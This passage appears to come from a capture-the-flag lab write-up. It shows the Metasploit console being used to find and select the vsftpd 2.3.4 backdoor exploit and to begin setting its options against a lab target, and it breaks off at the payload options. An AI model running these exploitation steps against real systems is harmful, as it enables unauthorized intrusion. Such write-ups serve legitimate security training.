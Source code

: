 ### msf>search & run

The search command in the msfconsole searches the Metasploit framework for exploits to the specified vulnerability.

Search command for vsftpd to find its exploits.

<pre data-line-numbers><code><strong>└─# msfconsole
</strong>                                                  
     ,           ,
    /             \                                                                                 
   ((__---,,,---__))                                                                                
      (_) O O (_)_________                                                                          
         \ _ /            |\                                                                        
          o_o \   M S F   | \                                                                       
               \   _____  |  *                                                                      
                |||   WW|||                                                                         
                |||     |||                                                                         
                                                                                                    

       =[ metasploit v6.1.27-dev                          ]
+ -- --=[ 2196 exploits - 1162 auxiliary - 400 post       ]
+ -- --=[ 596 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: You can use help to view all 
available commands

msf6 > search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
<strong>   -  ----                                  ---------------  ----       -----  -----------
</strong>   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor                                                                                          


</code></pre>

Identified the exploit 'exploit/unix/ftp/vsftpd\_234\_backdoor to use. Run the use command for the exploit and set the rhost to 10.10.10.3 and lhost to 10.10.14.6. Check options.

{% code lineNumbers="true" %}
```
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://github.com/rapid7/metasploit
                                      -framework/wiki/Using-Metasploit
   RPORT   21               yes       The target port (TCP)


Payload options (cmd/unix/interact):

   Name  Current Setting  Required  Description
```